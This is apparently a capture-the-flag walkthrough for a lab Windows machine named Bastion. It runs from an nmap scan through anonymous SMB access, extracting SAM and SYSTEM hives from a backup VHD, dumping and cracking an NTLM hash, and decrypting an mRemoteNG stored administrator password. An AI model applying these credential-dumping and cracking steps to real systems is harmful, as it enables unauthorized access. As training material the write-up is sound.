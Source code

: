 ## Nmap scan:
```
# Nmap 7.92 scan initiated Tue Jan  3 20:45:06 2023 as: nmap -sC -sV -p- -vv -Pn -oA full 10.10.10.134
Increasing send delay for 10.10.10.134 from 0 to 5 due to 517 out of 1723 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 10 to 20 due to 11 out of 13 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 20 to 40 due to 11 out of 13 dropped probes since last increase.
Nmap scan report for 10.10.10.134
Host is up, received user-set (0.075s latency).
Scanned at 2023-01-03 20:45:07 EST for 2639s
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      REASON          VERSION
22/tcp    open  ssh          syn-ack ttl 127 OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3bG3TRRwV6dlU1lPbviOW+3fBC7wab+KSQ0Gyhvf9Z1OxFh9v5e6GP4rt5Ss76ic1oAJPIDvQwGlKdeUEnjtEtQXB/78Ptw6IPPPPwF5dI1W4GvoGR4MV5Q6CPpJ6HLIJdvAcn3isTCZgoJT69xRK0ymPnqUqaB+/ptC4xvHmW9ptHdYjDOFLlwxg17e7Sy0CA67PW/nXu7+OKaIOx0lLn8QPEcyrYVCWAqVcUsgNNAjR4h1G7tYLVg3SGrbSmIcxlhSMexIFIVfR37LFlNIYc6Pa58lj2MSQLusIzRoQxaXO4YSp/dM1tk7CN2cKx1PTd9VVSDH+/Nq0HCXPiYh3
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Mau7cS9INLBOXVd4TXFX/02+0gYbMoFzIayeYeEOAcFQrAXa1nxhHjhfpHXWEj2u0Z/hfPBzOLBGi/ngFRUg=
|   256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB34X2ZgGpYNXYb+KLFENmf0P0iQ22Q0sjws2ATjFsiN
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-04T02:28:58
|_  start_date: 2023-01-04T01:43:05
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -19m58s, deviation: 34m36s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 15404/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26941/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55848/udp): CLEAN (Timeout)
|   Check 4 (port 18741/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-04T03:28:59+01:00

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  3 21:29:06 2023 -- 1 IP address (1 host up) scanned in 2639.24 seconds
```

139/445 - The main ports I was going to investigate, no web server so the answer is most likely there.
22 - SSH port for a windows box is unique, might be interesting later on.

I tried to log into the SMB without a password, and it worked:
```
smbclient \\\\10.10.10.134\\Backups\
```
At first I was trying to recursively download all of the files there, but it was very slow and didn't seem to work, and then I stumbled upon the ```note.txt``` file and read it:

![[Pasted_image_20230104205316.png]]

So I decided to mount the SMB share on my kali File System using this command:
```
mount -t cifs //10.10.10.134/Backups /mnt/smb
```
I searched for anything interesting there, and I found two .vhd files,
.vhd (virtual hard disk) file is: a disk image file format for storing the entire contents of a computer's hard drive. 
The disk image, sometimes called a virtual machine (VM), replicates an existing hard drive, including all data and structural elements.

![[Pasted_image_20230104210016.png]]

To list the files I used this command:
```
7z -l
```
And I could see that the first file contained only BOOT files, and the second one appeared to be the interesting one, so I used guestmount tool to view the files inside:
```
guestmount --add *filename* --inspector --ro -v /mnt/vhd
```

![[Pasted_image_20230104210329.png]]
After a while of enumeration, I couldn't find any flags or other files that could be useful so I decided to copy the SAM and SYTEM files and dump them later on.
to do that I did this:
```
cd /Windows/Sytem32/config/
cp SYSTEM SAM .
secretsdump.py -sam SAM -system SYSTEM local
```
And this is what I got:
```
[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```
I used hashcat to crack L4mpje NTLM hash:
```
hashcat -m 1000 L4mpje_hash /usr/share/wordlists/rockyou.txt
``` 
Result:
```
26112010952d963c8dc4217daec986d9:bureaulampje
```

Since WinRM port (5985) Was open, I tried to connect via evil-winrm, and when it didn't work I tried using the SSH port and it worked.


# Privilege Escalation

I used winPEAS for enumeration at first, but couldn't find anything that was useful.
So I started to enumerate manually, and I found mRemoteNG directory on ```C:\Program Files (x86)```
I have never seen seen it before, so I searched and read about it, and this is what I found:

**mRemoteNG:**
mRemoteNG (mremote) is an open source project (https://github.com/rmcardle/mRemoteNG) that provides a full-featured, multi-tab remote connections manager. It  supports RDP, SSH, Telnet, VNC, ICA, HTTP/S, rlogin, and raw socket connections. Additionally, It also provides the means to save connection settings such as hostnames, IP addresses, protocol, port, **and user credentials, in a password protected and encrypted connections file.**

The password can be found at ```%appdata%/mRemoteNG``` in a file named confCons.xml. This password can sometimes be the administrator password

![[Pasted_image_20230104222607.png]]

When I read the file I found this:
```                                                                                                                                           
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Userna                                                             
me="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="                                                             
```
It looks like the Administrator password, to decrypt it I used a tool called [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)
![[Pasted_image_20230104223021.png]]

I connected via SSH, and it worked:

![[Pasted_image_20230104223144.png]]

